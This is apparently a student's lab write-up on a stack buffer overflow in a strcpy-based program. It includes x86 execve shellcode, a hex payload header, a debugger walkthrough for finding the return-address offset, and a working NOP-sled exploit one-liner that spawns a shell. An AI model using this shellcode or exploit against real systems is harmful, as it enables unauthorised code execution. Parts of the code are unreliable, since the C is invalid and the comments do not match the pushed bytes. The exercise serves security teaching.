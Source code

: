 ### Exercise 6

1. Briefly explain why this program is exploitable?
__Solution :__ Function `strcpy` accepts user input `argv[1]` and copies the C string into buffer without checking the bounds. `strcpy` also has no way of knowing low large the destination vuffer size is.

__2 Provide some C source code that contains assembler instructions executing a shell (e.g.
/bin/sh) and.
__solution__

```

```


3. 
```nasm
global _start

SECTION .text

_start:
    xor eax, eax  ; clear eax registers
    push eax    ; push eax into stack
    ; push 68732f6e69622f2f2f2f = '////bin/sh' into stack
    push 0x68736162 
    push 0x2f6e6962
    push 0x2f2f2f2f
    push esp  ; push stack pointer
    pop ebx ; copy stack pointer into ebx
    push 0xb  ; syscall number 11 for execve 
    pop eax  
    int 0x80 ; pass control to interupt
          
```

4

```bash
$ nasm -felf32 shlle32_v2.nasm -o shell32v2.o   
```
Using `objdump` to extract machine specific instructions (in hexadecimal) from object file generated `shell32v2.o`


![Objdump](../task4/images/objdump.PNG)


__Header file__

payload.h

```c
extern char hexContent={"\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x54\x5b\x6a\x0b\x58\xcd\x80"};

```

c program

```c
char buffer = hexContent

```

__How it works:__



__5__.



__6: Solution__

__step 1:__ Fill the buffer with characters(`'AAA..'`) until segmentation fault occurs (which indicates that program has crashed due to illegal read or write(in our case) of memory location).

![segmentation_fault](../task4/images/segmentation_fault.PNG)

__step 2:__ locate Instruction Pointer `ip` and overwrite it with known characters.

 ![locating_ip](../task4/images/locating_ip.PNG)

- Check `dmesg`(tool to examing the buffer) found that `ip` is overwritten with `42424242`(`BBBB` in ASCII) which is last 4 bytes of our input, so the offset is 264.

- set breakpoint at `strcpy` and step inside the function call.

![strcp_breakpoint](../task4/images/strcp_breakpoint.PNG)

- Examine `$esp` to verify contents have been copied properly into the buffer 

![stack](../task4/images/stack.PNG)

- Pick any of the starting addresses from the stack `0xffffcefc`(in our case).

- Now use this address to overwrite the instruction pointer `ip` to point to our shellcode.

- Calculate shellcode length(`20 bytes`)
- Fill the buffer with no-ops `\x90` +`20 bytes shellcode` + `return address` which should result to 268 bytes(`offset` + `return address`) and run

![shell_executed](../task4/images/shell_executed.PNG)

payload

```bash
./example4 $(python -c "print('\x90'*208   + '\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80' + '\xfc\xce\xff\xff' * 10  )")

```
- payload breakdown
`208 bytes` (no-ops) + `20 bytes` shellcode + `4 bytes` return address * 10 = `268 bytes`.


<br>

### EXERCISE 7

1. 


### EXERCISE 8







